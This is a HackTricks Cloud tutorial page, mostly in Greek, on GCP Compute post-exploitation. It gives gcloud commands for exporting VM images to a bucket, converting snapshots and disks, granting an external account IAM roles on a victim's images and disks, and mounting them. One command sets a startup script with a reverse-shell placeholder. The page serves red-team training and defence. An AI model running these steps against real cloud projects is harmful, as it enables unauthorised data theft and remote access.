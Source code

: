# GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (Δικτύωση) ελέγξτε:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Εξαγωγή & Επιθεώρηση Εικόνων τοπικά

Αυτό θα επέτρεπε σε έναν επιτιθέμενο να **πρόσβαση στα δεδομένα που περιέχονται μέσα σε ήδη υπάρχουσες εικόνες** ή **να δημιουργήσει νέες εικόνες τρεχουσών VM** και να έχει πρόσβαση στα δεδομένα τους χωρίς να έχει πρόσβαση στην τρέχουσα VM.

Είναι δυνατόν να εξάγουμε μια εικόνα VM σε ένα bucket και στη συνέχεια να την κατεβάσουμε και να την τοποθετήσουμε τοπικά με την εντολή:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Για να εκτελέσει αυτή την ενέργεια, ο επιτιθέμενος μπορεί να χρειαστεί δικαιώματα πάνω στον αποθηκευτικό κάδο και σίγουρα **δικαιώματα πάνω στο cloudbuild**, καθώς είναι η **υπηρεσία** που θα ζητηθεί να εκτελέσει την εξαγωγή.\
Επιπλέον, για να λειτουργήσει αυτό, ο SA του codebuild και ο SA του compute χρειάζονται προνομιακά δικαιώματα.\
Ο SA του cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` χρειάζεται:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Και ο SA `<project-id>-compute@developer.gserviceaccount.com` χρειάζεται:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Εξαγωγή & Επιθεώρηση Στιγμιότυπων & Δίσκων τοπικά

Δεν είναι δυνατόν να εξάγουμε άμεσα στιγμιότυπα και δίσκους, αλλά είναι δυνατόν να **μετατρέψουμε ένα στιγμιότυπο σε δίσκο, έναν δίσκο σε εικόνα** και ακολουθώντας την **προηγούμενη ενότητα**, να εξάγουμε αυτή την εικόνα για να την επιθεωρήσουμε τοπικά.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Επιθεώρηση μιας Εικόνας δημιουργώντας μια VM

Με στόχο την πρόσβαση στα **δεδομένα που αποθηκεύονται σε μια εικόνα** ή μέσα σε μια **τρέχουσα VM** από όπου ένας επιτιθέμενος **έχει δημιουργήσει μια εικόνα,** είναι δυνατόν να παραχωρηθεί πρόσβαση σε έναν εξωτερικό λογαριασμό πάνω στην εικόνα:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
και στη συνέχεια δημιουργήστε μια νέα VM από αυτό:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Αν δεν μπορούσατε να δώσετε πρόσβαση στον εξωτερικό σας λογαριασμό μέσω της εικόνας, θα μπορούσατε να εκκινήσετε μια VM χρησιμοποιώντας αυτή την εικόνα στο έργο του θύματος και **να κάνετε τα μεταδεδομένα να εκτελούν ένα reverse shell** για να αποκτήσετε πρόσβαση στην εικόνα προσθέτοντας την παράμετρο:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Με στόχο την πρόσβαση στα **δεδομένα που είναι αποθηκευμένα σε έναν δίσκο ή σε ένα στιγμιότυπο, θα μπορούσατε να μετατρέψετε το στιγμιότυπο σε δίσκο, έναν δίσκο σε εικόνα και να ακολουθήσετε τα προηγούμενα βήματα.**

Ή θα μπορούσατε να **παρέχετε πρόσβαση σε έναν εξωτερικό λογαριασμό** πάνω στον δίσκο (αν το αρχικό σημείο είναι ένα στιγμιότυπο, δώστε πρόσβαση στο στιγμιότυπο ή δημιουργήστε έναν δίσκο από αυτό):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Συνδέστε τον δίσκο** σε μια παρουσίαση:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH into the VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identify the Disk**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3. **Format and Mount the Disk** (if it's a new or raw disk):
*   Create a mount point:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mount the disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

If you **cannot give access to a external project** to the snapshot or disk, you might need to **perform these actions inside an instance in the same project as the snapshot/disk**.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
